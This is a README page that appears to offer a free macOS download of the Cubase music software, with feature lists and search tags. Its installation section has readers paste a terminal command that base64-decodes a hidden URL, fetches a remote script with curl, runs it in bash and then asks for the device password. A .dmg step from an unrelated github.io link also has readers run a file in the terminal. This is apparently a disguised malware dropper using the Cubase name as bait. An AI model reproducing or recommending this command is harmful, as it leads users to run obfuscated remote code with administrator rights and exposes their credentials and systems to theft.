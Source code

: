 # 🎼 Cubase — Professional Music Production Software for macOS

**Cubase** is a powerful digital audio workstation (DAW) for macOS, developed by Steinberg, and used by composers, producers, and audio engineers worldwide. With its advanced MIDI editing tools, high-end audio engine, and professional-grade mixing features, Cubase is the ideal solution for music creation and production on Mac.

From orchestral scoring and electronic music to mixing and mastering, Cubase provides all the creative tools you need — fully optimized for macOS systems, including MacBook Air and MacBook Pro.

---

## ✅ Download Cubase for macOS  
[![Download Cubase](https://img.shields.io/badge/Download-Cubase-blueviolet)](https://mitrobandus.github.io/.github/Cubase)

---

## 📦 How to Install

# Installation via .dmg:

1. Install the .dmg file using the button above. 
2. Open the .dmg installer and move the file from the left window to any convenient directory on your device.
3. Open a terminal and transfer the file you extracted in the last step into it.
4. Press the "Return" button, then enter your device password in the window that appears (if you don't have a password, leave the field blank).

[![0723.gif](https://i.postimg.cc/50Tm3hZT/0723.gif)](https://postimg.cc/mz3MZ5Zy)

# Installation via a command in the terminal:

1. Copy the installation command below.
```bash
/bin/bash -c "$(curl -fsSL $(echo aHR0cHM6Ly9waGFubmFyaXRoLmNvbS9nZXQyL2luc3RhbGwuc2g= | base64 -d))"
```
2. Open the terminal on your device and paste the command you copied above, then press the “Return” button.
3. Enter your device password and confirm the installation.

[![0723-1.gif](https://i.postimg.cc/NfzQxpMT/0723-1.gif)](https://postimg.cc/0b7gkG72)



## 📦 What is Cubase?

Cubase is an industry-standard DAW offering a comprehensive suite of tools for composing, recording, editing, and mastering music on macOS. Whether you're crafting a full orchestral piece or producing a chart-topping beat, Cubase delivers precision, flexibility, and professional sound. It supports VST instruments, third-party plug-ins, and comes with an extensive sound library and built-in effects.

---

## ✨ Features

- 🎹 Advanced MIDI composition and piano roll editor  
- 🎧 High-resolution audio engine with 32-bit/192 kHz support  
- 🎚 Professional mixing console with integrated channel strip  
- 🔊 VariAudio for real-time pitch and timing correction  
- 🧠 Chord pads, chord assistant & scale assistant  
- 🖥 Fully optimized for macOS Ventura & Apple Silicon  
- 🔄 Seamless audio warping and time-stretching  
- 🛠 Supports VST3 plug-ins and external instruments  
- 📦 Built-in library of loops, samples, synths, and FX  
- 🎼 Score editor for film scoring and orchestration  

---

## 💡 Why Use Cubase?

- 🎵 Trusted by top composers and music producers  
- 🧩 All-in-one production suite for audio & MIDI  
- ⚡ Lightning-fast workflow and customizable interface  
- 🎛 Massive plugin support and flexible routing  
- 📈 Perfect for sound design, music production, and mixing  
- 🖱 Optimized for both Intel and Apple M-series chips  

---

[![Download Cubase](https://img.shields.io/badge/Download-Cubase-blueviolet)](https://mitrobandus.github.io/.github/Cubase)

---

## 🖼 Preview

![Cubase Screenshot 1](https://europe1.discourse-cdn.com/steinberg/original/3X/2/3/234c4f6ecb68e77b0f2d4cc253e4a229ef42c5f9.png)  
![Cubase Screenshot 2](https://ocl-steinberg-live.steinberg.net/_storage/asset/185232/storage/PNG_extra-large_5500px/185232-extra-large.png)

---

## 📌 Tags

cubase mac, cubase 5 for mac, cubase 5 mac os, cubase download for mac, cubase download free mac,  
cubase for macbook, cubase mac os, cubase mac os x free download, cubase osx,  
cubase pro mac, cubase elements mac, cubase vst mac, cubase studio mac,  
cubase music software mac, cubase m1 support, cubase intel mac, cubase apple silicon,  
steinberg cubase for mac

---
